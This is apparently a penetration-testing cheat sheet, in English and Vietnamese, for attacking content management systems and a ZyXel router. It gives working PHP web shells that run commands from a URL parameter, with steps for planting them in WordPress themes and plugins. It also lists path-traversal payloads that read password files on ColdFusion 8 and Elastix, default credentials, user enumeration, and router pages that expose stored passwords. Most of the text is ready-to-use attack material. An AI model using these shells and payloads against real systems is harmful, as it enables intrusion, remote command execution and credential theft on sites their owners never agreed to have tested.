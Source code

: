 # CMS

* Enumerate version and few other details
* Google their vulnerability

## Wordpress <a href="#wordpress" id="wordpress"></a>

### Trang Admin <a href="#admin-page" id="admin-page"></a>

```
/wp-admin
/wp-login
```

### Config files <a href="#configuration-files" id="configuration-files"></a>

```
setup-config.php
wp-config.php
```

### Tìm kiếm người dùng <a href="#enumerate-users" id="enumerate-users"></a>

```
/?author=1, /?author=2,
```

### Tải shell lên WP\_THEME <a href="#uploading-shell-in-wp_theme" id="uploading-shell-in-wp_theme"></a>

1. Đăng nhập vào wp-admin và vào Apperanc
2. Vào Editor và chọn theme có quyền chỉnh sửa
3. Cho webshell vào theme

```
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

4. Update file và truy cập **\<url>/wordpress/wp-content/themes/twentyfifteen/404.php/?cmd=**

### Tải shell lên WP\_PLUGIN

1. Đăng nhập vào wp-admin và vào Plugins
2. Add 1 plugin mới với file zip hoặc thay đổi plugin .php có sẵn (nhớ phải có comment về thông tin plugin)

```
<?php
/*
Plugin Name: Malicious Plugin
Description: A simple plugin for demonstration.
Version: 1.0
Author: Test
*/
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>

```

3. Truy cập vào **\<url>/wp-content/plugins/malicious\_plugin/plugin\_cmd.php/?cmd=**

## Drupal <a href="#drupal" id="drupal"></a>

### Droopescan <a href="#droopescan" id="droopescan"></a>

```
droopescan scan drupal -u http://example.org/ -t 32
```

### Find version <a href="#find-version" id="find-version"></a>

```
/CHANGELOG.txt
```

## Adobe Cold Fusion <a href="#adobe-cold-fusion" id="adobe-cold-fusion"></a>

### Determine version <a href="#determine-version" id="determine-version"></a>

```
/CFIDE/adminapi/base.cfc?wsdl
```

### Version 8 Vulnerability <a href="#version-8-vulnerability" id="version-8-vulnerability"></a>

* fckeditor
* LFI

  `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix <a href="#elastix" id="elastix"></a>

* Google the vulnerabitlities
* default login are `admin:admin` at `/vtigercrm/`
* able to upload shell in profile-photo

### 2.2.0 - 'graph.php' Local File Inclusion <a href="#id-2.2.0-graph.php-local-file-inclusion" id="id-2.2.0-graph.php-local-file-inclusion"></a>

`http://server/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

Note: Most probably this will be same password for root user too , so you can directly ssh through it

## Joomla <a href="#joomla" id="joomla"></a>

* Admin page - `/administrator`
* Configuration files
* ```
  configuration.php
  diagnostics.php
  joomla.inc.php
  config.inc.php
  ```

## Mambo <a href="#mambo" id="mambo"></a>

**Config files**

```
configuration.php
config.inc.php  
```

## ZyXel <a href="#zyxel" id="zyxel"></a>

Configuration files

```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```